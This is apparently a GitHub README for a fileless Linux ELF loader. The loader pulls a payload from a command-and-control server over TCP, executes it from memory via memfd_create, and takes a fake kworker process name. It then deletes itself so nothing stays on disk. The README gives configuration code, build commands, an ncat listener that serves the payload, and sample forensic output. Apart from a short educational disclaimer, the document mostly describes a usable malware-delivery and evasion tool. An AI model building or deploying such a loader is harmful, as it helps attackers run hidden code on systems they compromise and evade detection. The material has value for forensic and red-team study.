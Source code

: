 
## Fileless In-Memory Loader Linux 

This tool implements a fileless, in-memory ELF loader for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a raw ELF payload, and executes it entirely from memory using memfd_create().

> ⚠️ **For educational and authorized use only.** Do not use on systems you do not own or have explicit permission to operate on.

### Key Features
 * Uses memfd_create() to create a memory-backed, executable file descriptor
 * Pulls payload from a configurable C2 IP and port over a socket connection
 * Executes the ELF binary directly from memory via /proc/self/fd/<fd>
 * Applies a fake process name (argv[0]) for stealth in `ps`, `top`, etc.
 * Deletes itself from disk (via unlink("/proc/self/exe")) after execution
 * Leaves no payload or loader trace on the filesystem after startup

### Configuration

Inside `loader.c`, you can configure the following parameters:

```c
const char *C2_IP        = "127.0.0.1";       // C2 IP
const int   C2_PORT      = 1111;              // C2 port
const char *FAKE_PROC    = "[kworker/0:1-events]";   // Shown in `ps` output
const char *FD_NAME      = "error";          // Shown in `cat /proc/<pid>/maps` as [memfd:error (deleted)]
````

### Usage

1. Compile the Loader

```bash
gcc -o loader loader.c
gcc -o payload.elf test-payload.c
```

2. Start the C2 (e.g., Netcat)

```bash
ncat -lvnp 1111 < payload.elf
```

3. Run the Loader

```bash
./loader
```

If successful:

* The loader deletes itself
* The payload executes in memory
* The process appears with the fake name (`[kworker/u!0]`)
* Nothing is left on disk

## Forensics traces

```bash
$ ps aux | grep kworker
root      1233  0.0  0.0   2196  1200 ?        Ss   13:47   0:00 [kworker/0:1-events]
root      1235  0.0  0.0   3040  1428 pts/2    S+   13:47   0:00 grep kworker
$ cat /proc/1233/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1025                               /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1025                               /memfd:error (deleted)
00420000-00421000 rw-p 00010000 00:01 1025                               /memfd:error (deleted)
```
